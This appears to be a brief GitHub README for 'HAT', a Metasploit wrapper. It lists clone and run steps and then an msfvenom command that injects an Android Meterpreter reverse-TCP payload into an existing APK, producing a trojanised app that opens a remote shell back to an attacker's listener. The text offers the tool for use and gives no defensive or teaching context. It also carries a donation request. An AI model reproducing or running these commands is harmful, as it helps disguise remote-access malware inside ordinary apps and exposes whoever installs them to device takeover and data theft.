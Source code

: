 HAT PROJECT

*Clone - git clone https://github.com/BLACKRATTX/HAT-Metasploit-Reverse-Engineer-Tools

*Directory - cd /root/HAT-Metasploit-Reverse-Engineer-Tools

*Give permissions - chmod +x HAT.sh

*Execute - sh HAT.sh

*Generate the payloads with msfvenom -x command using existing android/windows applications.

*Example-  msfvenom -x /sdcard/test.apk -p android/meterpreter/reverse_tcp LHOST=0000.0.0.0 LPORT=4444 -o /sdcard/payload.apk


"IF YOU LIKE MY HARD WORK, GIMME A CUP OF COFFEE"

DONATE ME: https://www.paypal.me/blackratt505
